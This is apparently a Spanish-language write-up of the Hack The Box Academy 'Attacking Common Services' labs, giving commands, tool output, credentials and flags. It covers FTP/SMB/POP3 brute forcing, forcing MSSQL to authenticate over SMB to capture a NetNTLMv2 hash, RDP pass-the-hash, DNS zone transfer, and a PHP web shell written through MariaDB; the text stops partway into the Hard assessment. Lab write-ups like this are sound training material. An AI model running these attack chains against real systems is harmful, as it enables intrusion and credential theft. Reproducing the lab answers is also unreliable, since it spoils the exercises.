# Attacking Common Services

## FTP 

### FTP 

1. **What port is the FTP service running on?**

```
nmap -A 10.129.1.250
```

```bash
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp   open  domain      ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
2121/tcp open  ftp         ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
|_-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

answer: **2121**

2. **What username is available for the FTP server?**

```
ftp 10.129.1.250 2121
```

Siempre cuando entremos a ftp probaremos con el usuario **anonymous** y con la contraseña en blanco. Una vez iniciado sesión...

```
ls 
get users.list
get passwords.list
```

Luego, usaremos la herramienta **hydra** para averiguar que usuario y contraseña se usa en el servicio **ftp**

```
hydra -L users.list -P passwords.list ftp://10.129.1.250:2121
```

Credenciales --> **robin**:**7iz4rnckjsduza7**

3. **Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.**

```
ftp 10.129.1.250 2121
```

Nos registramos con las credenciales obtenidas en el ejercicio anterior.

```
ls
get flag.txt
exit
```

answer: **HTB{ATT4CK1NG_F7P_53RV1C3}**

## SMB

###  Attacking SMB

1. **What is the name of the shared folder with READ permissions?**

```
smbmap -H 10.129.2.90  
```

<p align="center"> 

</p>

answer: **GGJ**

2. **What is the password for the username "jason"?**

En esta ocasión el módulo tendrá su propio diccionario de usuario (users.list) y contraseña (pws.list)

<p align="center"> 

</p>

```
crackmapexec smb 10.129.2.90 -u "jason" -p pws.list --local-auth
```

<p align="center"> 

</p>

Credenciales --> **jason**:**34c8zuNBo91!@28Bszh** 

answer: **34c8zuNBo91!@28Bszh**

3. **Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.**

```
smbclient --user jason //10.129.2.90/GGJ
contraseña --> 34c8zuNBo91!@28Bszh
```

Una vez dentro nos descargado el archivo **id_rsa**

<p align="center"> 

</p>

```
get id_rsa
exit
```

Una vez descargado le damos permiso de usuario

```
chmod 600 id_rsa
ssh -i id_rsa jason@10.129.2.90
cat flag.txt
```

answer: **HTB{SMB_4TT4CKS_2349872359}**

## SQL Databases

### Attacking SQL Databases

1. **What is the password for the "mssqlsvc" user?**

Authenticate to 10.129.203.12 (ACADEMY-ATTCOMSVC-WIN-02), with user "<font color="#00b050">htbdbuser</font>" and password "<font color="#c00000">MSSQLAccess01!</font>"

En primer lugar, iniciamos la herramienta `responder` en nuestra máquina de ataque, con el objetivo de capturar cualquier valor de tipo NTLM que pueda ser enviado a través de la red.

```
sudo responder -I tun0
```

<p align="center"> 

</p>

Luego, nos conectamos al servidor SQL utilizando la herramienta `impacket-mssqlclient` , con las credenciales proporcionadas.

```
impacket-mssqlclient htbdbuser@10.129.203.12
SELECT SYSTEM_USER;
```

<p align="center"> 

</p>

Luego llevamos el siguiente comando: 

```
EXEC master..xp_dirtree '\\10.10.15.111\share\';
```

>Este comando obliga a SQL Server a buscar carpetas en una ruta de red externa que apunta a tu máquina Kali (\10.10.15.111\share); al intentar acceder a ese supuesto recurso compartido mediante el protocolo SMB, el sistema operativo del servidor se ve obligado a autenticarse automáticamente contra ti, enviándole a tu herramienta Responder el **Hash NetNTLMv2** de la cuenta de servicio que ejecuta el SQL para que puedas capturarlo

Luego, en el responder...

<p align="center"> 

</p>

>mssqlsvc::WIN-02:db28de03550817c2:5249CDEFB8C0FD2D0451A5059D8CE5F6:0101000000000000805E105341E9DC01C76CF0169D41D9B900000000020008004D0043003000530001001E00570049004E002D00420048003400380033003600380036004D005800550004003400570049004E002D00420048003400380033003600380036004D00580055002E004D004300300053002E004C004F00430041004C00030014004D004300300053002E004C004F00430041004C00050014004D004300300053002E004C004F00430041004C0007000800805E105341E9DC0106000400020000000800300030000000000000000000000000300000E6DF020F0FDBE27A519297AAABA3D8A0CB8E6DC5A49AE761E2E70BA79E0AFA5B0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310035002E003100310031000000000000000000

Guardamos este archivo **hash.txt**

```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

answer: **princess1**

2. **Enumerate the "flagDB" database and submit a flag as your answer.**

```
impacket-mssqlclient mssqlsvc@10.129.203.12 -windows-auth
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
SELECT * FROM flagDB.dbo.tb_flag;
```

answer: `HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}`

## RDP

### Attacking RDP

1. **What is the name of the file that was left on the Desktop? (Format example: filename.txt)**

RDP to with user "<font color="#00b050">htb-rdp</font>" and password "<font color="#c00000">HTBRocks!</font>"

```
xfreerdp /v:10.129.2.146 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /cert:ignore
```

En el escritorio encontraremos el .txt

answer: **pentest-notes.txt**

2. **Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?** 

El módulo explica que la función RDP Pass-the-Hash solo funciona si el Modo de Administrador Restringido está activado.

De forma predeterminada, está deshabilitado.

La ruta del registro que se utiliza es:

```
HKLM\System\CurrentControlSet\Control\Lsa
```

Y el valor que debe crearse o modificarse es:

```
v (REG_DWORD)
```

Por tanto, el comando para habilitar el pth en RDP, usaremos el siguiente comando:

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

Este comando lo tendremos que escribir en una sesion de powershell.

<p align="center"> 

</p>

answer: **DisableRestrictedAdmin**

3. **Connect via RDP with the Administrator account and submit the flag.txt as you answer.**

```
xfreerdp /v:10.129.2.146 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /cert:ignore
```

En el escritorio nos encontraremos la **flag.txt**

answer: `HTB{RDP_P4$$_Th3_H4$#}`

## DNS

### Attacking DNS

1. **Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.**

Para la realización de esta actividad nos tendremos que descargar la herramienta **subbrute*

> Es una herramienta clásica de ciberseguridad diseñada para realizar **fuerza bruta de subdominios**. Su objetivo principal es descubrir páginas o servidores ocultos dentro de un dominio

```
git clone https://github.com/TheRook/subbrute
cd subbrute
```

Tendremos que eliminar el archivo **resolvers.txt** ya que contiene ips que a nosotros no nos conviene. Por tanto, crearemos de nuevo este archivo anotando dentro la ip que nos da HTB para resolver este labs. En mi caso la ip anotado dentro del archivo es **10.129.2.164**

```
python3 subbrute.py -s names.txt -r resolvers.txt inlanefreight.htb 
```

<p align="center"> 

</p>

```
dig AXFR hr.inlanefreight.htb @10.129.2.164
```

<p align="center"> 

</p>

answer: `HTB{LUIHNFAS2871SJK1259991}`

## SMTP

### Attacking Email Services

1. **What is the available username for the domain inlanefreight.htb in the SMTP server?**

Recordemos que tanto el archivo .txt llamado **users.list** y **passwords.list** son diccionarios que nos da HTBacademy. Usaremos la herramienta **smtp-user-enum**

```
smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12 
```

>Este comando se utiliza en auditorías de seguridad y pruebas de penetración. Sirve para **descubrir usuarios válidos** en un servidor de correo electrónico (SMTP) probando una lista de nombres uno por uno.

>**smtp-user-enum**: Es un script clásico que interactúa con el servidor de correo para verificar si los nombres de usuario existen.

>**-M RCPT**: utiliza el comando de red RCPT TO (Recipient). Le dice al servidor: _"Oye, quiero enviar un correo a este usuario"_. Si el servidor responde con un código de éxito (como 250 OK), la herramienta sabe que el usuario existe. Si responde con un error (como 550 User unknown), sabe que no existe.

<p align="center"> 

</p>

answer: **marlin**

2. **Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.** 

Luego usaremos hydra para descubir cual es la contraseña de Marlin. Para que funcione el siguiente comando debemos de tener registrado en el archivo **/etc/hosts** la ip del servidor junto a su dominio, tal que así:

<p align="center"> 

</p>

```
hydra -l "marlin@inlanefreight.htb" -P passwords.list -f inlanefreight.htb pop3
```

> **POP3**: Es uno de los protocolos estándar más antiguos de Internet utilizados por los clientes de correo para **recibir y descargar** los mensajes desde el servidor de correo electrónico.

<p align="center"> 

</p>

Credenciales --> `marlin@inlanefreight.htb`:`poohbear`

```
telnet 10.129.203.12 110 
USER marlin@inlanefreight.htb
PASS poohbear
list
RETR 1
```

<p align="center"> 

</p>

answer: `HTB{w34k_p4$$w0rd}`

## Skills Assesment 

### Attacking Common Services - Easy

1. **You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer.**

```
nmap -A 10.129.2.235
```

```bash
21/tcp   open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     Command unknown, not supported or not allowed...
|     Command unknown, not supported or not allowed...
|   Help: 
|     220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
|     214-The following commands are implemented
|     USER PASS ACCT QUIT PORT RETR
|     STOR DELE RNFR PWD CWD CDUP
|     NOOP TYPE MODE STRU
|     LIST NLST HELP FEAT UTF8 PASV
|     MDTM REST PBSZ PROT OPTS CCC
|     XCRC SIZE MFMT CLNT ABORT
|     HELP command successful
|   NULL: 
|_    220 Core FTP Server Version 2.0, build 725, 64-bit Unregistered
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| http-title: Welcome to XAMPP
|_Requested resource was http://10.129.2.235/dashboard/
443/tcp  open  https
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Area
|_ssl-date: 2026-05-21T18:42:39+00:00; +13s from scanner time.
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3306/tcp open  mysql         MariaDB 5.5.5-10.4.24
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.24-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, Support41Auth, SupportsCompression, LongColumnFlag, IgnoreSigpipes, Speaks41ProtocolOld, InteractiveClient, Speaks41ProtocolNew, FoundRows, ODBCClient, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: O9nB:>hp{8E0awU$N@3}
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-21T18:42:39+00:00; +13s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: WIN-EASY
|   NetBIOS_Domain_Name: WIN-EASY
|   NetBIOS_Computer_Name: WIN-EASY
|   DNS_Domain_Name: WIN-EASY
|   DNS_Computer_Name: WIN-EASY
|   Product_Version: 10.0.17763
|_  System_Time: 2026-05-21T18:42:31+00:00
| ssl-cert: Subject: commonName=WIN-EASY
| Not valid before: 2026-05-20T18:34:50
|_Not valid after:  2026-11-19T18:34:50
```

Luego, uso la herramienta **smtp-user-enum** para descubrir algún usuario del dominio. Tampoco olvidemos registrar el dominio **inlanefreight.htb** dentro del archivo **/etc/hosts**

```
smtp-user-enum -M RCPT -U users.list -t 10.129.203.7 -D inlanefreight.htb
```

<p align="center"> 

</p>

Luego, usaremos hydra para encontrar la contraseña del servicio.

```
hydra -l fiona -P /usr/share/wordlists/rockyou.txt -t 1 -f ftp://10.129.203.7
```

Colocamos **-t 1** para evitar que no salgan errores.

<p align="center"> 

</p>

Credenciales --> **fiona**:**987654321**

Una vez obtenida las credenciales accedí con ellas en **MariaDB**

```
mysql -h 10.129.203.7 -u fiona -p987654321 --ssl=FALSE
```

Antes de escribir un archivo, comprobé si había `secure_file_priv`escrituras bloqueadas:

```
SHOW VARIABLES LIKE 'secure_file_priv';
```

<p align="center"> 

</p>

`secure_file_priv` estaba vacío. Esto significa que no hay ninguna restricción para escribir en los archivos del servidor.

Al examinar la página web HTTP que se encuentra en el puerto 80 del servidor, encontré un archivo llamado pageinfo.php que se cargaba al acceder a esa página. En dicho archivo pude ver que los archivos del servidor de la aplicación web se encontraban en la carpeta “**C:/xampp/htdocs/dashboard/phpinfo3.php**”.

<p align="center"> 

</p>

Sabiendo que tengo el privilegio `FILE` , y que en el directorio “C:/xampp/htdocs/dashboard/” se encontraban archivos PHP que eran ejecutados por el servidor, escribí una “shell web” en PHP, de forma muy sencilla, en ese directorio. Dentro de la sesión abierta de MariaDB escribo: 

```bash
SELECT "<?=`$_GET[0]`?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/phpinfo3.php';
SELECT LOAD_FILE('C:/xampp/htdocs/dashboard/phpinfo3.php');
```

<p align="center"> 

</p>

He confirmado el contenido del archivo con `LOAD_FILE` .

Una vez que subí el “web shell”, volví a la página web HTTP. A través del “web shell”, ejecuté una orden en Windows para leer el valor de la “bandera” en cuestión.

```
http://10.129.203.7/dashboard/phpinfo3.php?0=type+C:\Users\Administrator\Desktop\flag.txt
```

<p align="center"> 

</p>

answer: `HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}`

### Attacking Common Services - Medium

1. **Assess the target server and find the flag.txt file. Submit the contents of this file as your answer.**

```
nmap -A 10.129.4.68 
```

```bash
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp  open  pop3     Dovecot pop3d
|_pop3-capabilities: CAPA PIPELINING AUTH-RESP-CODE UIDL SASL(PLAIN) RESP-CODES USER TOP STLS
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time
995/tcp  open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: CAPA UIDL SASL(PLAIN) USER AUTH-RESP-CODE PIPELINING TOP RESP-CODES
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_ssl-date: TLS randomness does not represent time
2121/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (InlaneFTP) [10.129.4.68]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
```

Intentamos iniciar sesión en los servicios FTP en los puertos 2121 y 30021 utilizando credenciales anónimas. El inicio de sesión en el puerto 2121 falla, pero el inicio de sesión en el puerto 30021 tiene éxito. Recordemos que la credenciales para usarlo como anonymous es 
**anonymous**:**anonymous**

```
ftp 10.129.4.68 30021
```

<p align="center"> 

</p>

```
ls
cd simon
ls
get mynotes.txt
exit 
```

<p align="center"> 

</p>

Resulta que el .txt mynotes es un mini diccionario lo usaremos para saber que contraseña sirve para el usuario **simon** usando la herramienta hydra.

```
hydra -l "simon" -P mynotes.txt -t 1 ftp://10.129.4.68:2121
```

Credenciales --> **simon**:**8Ns8j1b!23hs4921smHzwn**

```
ftp 10.129.4.68 30021
ls
get flag.txt
exit
```

answer: **HTB{1qay2wsx3EDC4rfv_M3D1UM}**

### Attacking Common Services - Hard

1. **What file can you retrieve that belongs to the user "simon"? (Format: filename.txt)**

```
nmap -A 10.129.203.10
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-05-22T14:33:48+00:00; 0s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.203.10:1433: 
|     Target_Name: WIN-HARD
|     NetBIOS_Domain_Name: WIN-HARD
|     NetBIOS_Computer_Name: WIN-HARD
|     DNS_Domain_Name: WIN-HARD
|     DNS_Computer_Name: WIN-HARD
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.203.10:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-05-22T14:30:56
